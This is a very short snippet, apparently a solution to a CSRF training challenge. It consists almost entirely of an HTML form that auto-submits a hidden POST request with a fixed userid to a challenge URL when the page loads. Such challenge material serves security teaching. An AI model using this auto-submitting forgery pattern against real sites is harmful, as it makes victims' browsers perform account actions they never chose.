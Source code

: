 <form name="csrfForm" action="https://www.randy-ke.github.io/user/csrfchallengetwo/plusplus/" method="POST">
 <input type="hidden" name="userid" value="1aba47aac38152ca62e98427d985e8bf907d60a2" />
 <input type="submit"/>
</form>
<script>
 document.csrfForm.submit();
</script>